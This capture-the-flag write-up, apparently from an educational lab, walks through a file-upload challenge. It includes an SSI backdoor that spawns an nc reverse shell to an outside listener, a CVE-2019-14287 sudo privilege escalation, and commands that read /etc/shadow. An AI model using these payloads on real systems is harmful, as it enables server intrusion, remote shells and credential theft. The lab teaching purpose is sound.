 A somewhat easy target, with a small upload form, that tries to enforce restrictions to certain file-types.

This target aims to illustrate some common misconfigurations and ways to exploit them.

Starting with port-scanning is always a good idea

```sh
$ nmap -sS 10.0.100.65
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-04 00:06 UTC
Nmap scan report for 10.0.100.65 (10.0.100.65)
Host is up (0.0022s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
```

Checking the server headers for this service we get

```sh
$ curl -I 10.0.100.65
HTTP/1.1 200 OK
Date: Mon, 04 Jan 2021 14:11:02 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.1.32
Content-Type: text/html; charset=UTF-8
```

Now that we know the port we can check to see what is hosted on the HTTP service, running on the system.

Visiting the page we see the following

```sh
$ lynx -dump http://10.0.100.65/
   Secure file upload module

   Please choose a file to upload (php files are not accepted) and press
   submit to upload the file.
   File: __________________ Submit
```

Trying to upload a `testfile` gives us this

```sh
  Secure file upload module

   Please choose a file to upload (php files are not accepted) and press
   submit to upload the file.
   BURRRRRRPPPP! Need 'beer' to proceeed.
```

Ok so we need to provide `beer` to **proceeed**. Checking the source code of the page we see the following

```sh
$ curl http://10.0.100.65/
<html>
<title>Secure beer upload testing environment</title>
<body>
  <strong> Secure file upload module </strong>
  <p> Please choose a file to upload (php files are not accepted) and press
  submit to upload the file.</p>
  <br/>
<br/>
<form method="post" enctype="multipart/form-data">
    File: <input type="file" name="file_upload">
    <input type="submit">
</form>

<!-- ETSCTF_*REDUCTED* -->
```

There are a few places that we could try passing `beer` on this page

-   as HTTP query parameter and/or value `?beer=beer`
-   as name and/or value for the submit button `<input type="submit" name="beer" value="beer">`
-   as a filename for the upload
-   as a form name `<form name="beer" method="post" enctype="multipart/form-data">`
-   As a name of the file input field `<input type="file" name="beer">`

Changing the name of the input field from `file_upload` to `beer` did the trick and we are now able to upload files.

After testing a couple of different file extensions to the upload form, we narrowed down our list to the following:

1.  filename without extension `curl -F "beer=@filename" 10.0.100.65`
2.  filename starting with dot `curl -F "beer=@.filename" 10.0.100.65`
3.  filename with `shtml` extension `curl -F "beer=@filename.shtml" 10.0.100.65`

All of these three cases have the potential for further exploitation under the right circumstances, when Apache web server is used, just like in our case.

1.  If `ForceType application/x-httpd-php` is used we can upload PHP files without extension and be executed.
2.  If `AllowOverride` is enabled on any of the accessible folders, then we can upload a `.htaccess` file that allows processing of PHP files no matter the extension.
3.  If server side includes is installed and the folder we are uploading has `Options +Includes` then we can upload an `shtml` file with our payload to be executed server side.

We choose the last option since it seemed a lot easier and since we are going to attempt to spawn a reverse shell the timeout will be much longer than the default one used by PHP.

On one terminal we start netcat ready to accept connections on port `4444`

```sh
$ nc -l 10.10.0.x 4444
```

We create a `backdoor.shtml` file with our desired commands to be executed on the server and upload with `curl`.

```sh
$ echo '<!--#exec cmd="nc -e /bin/bash 10.10.0.X 4444" -->' > backdoor.shtml
$ curl -F "beer=@backdoor.shtml" 10.0.100.65
```

We see that the upload succeeded and we can now access our `backdoor.shtml` and initiate the reverse shell.

```sh
$ curl http://10.0.100.65/backdoor.shtml
```

Now we have a reverse shell connected. Lets investigate the system further

```sh
id;
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Our shell is running as the web server user (`www-data`). Looking around we see that the user is allowed to run `sudo` as any user **except** `root`.

```
sudo -l;
User www-data may run the following commands on barney:
  (ALL, !root) NOPASSWD: ALL
```

Checking the version with `sudo -V` we see that the version installed is affected by the CVE-2019-14287 vulnerability.

```
sudo -V;
Sudo version 1.8.27
Sudoers policy plugin version 1.8.27
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.27
```

The exploitation of this vulnerability is fairly simple

```
sudo -u#-1 id;
uid=0(root) gid=33(www-data) groups=33(www-data)
```

To grab the remaining flags, we run the following commands

```
grep ETSCTF /etc/passwd /etc/shadow /proc/1/environment;
echo /root/ETSCTF*;
cat /root/ETSCTF*
```

Now go get your headshot :)